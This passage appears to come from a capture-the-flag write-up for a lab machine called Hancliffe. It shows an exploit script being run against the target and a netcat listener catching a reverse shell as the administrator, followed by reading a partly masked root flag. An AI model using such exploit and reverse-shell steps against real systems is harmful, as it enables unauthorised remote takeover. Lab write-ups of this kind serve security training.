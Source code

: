 Now I’ll fire it at Hancliffe:

```

oxdf@hacky$ python3 sploit.py IP=10.10.11.115 PORT=9999
[+] Opening connection to 10.10.11.115 on port 9999: Done
[*] Closed connection to 10.10.11.115 port 9999

```

At `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.115 58565
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
hancliffe\administrator

```

And I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
3a0478e0************************

```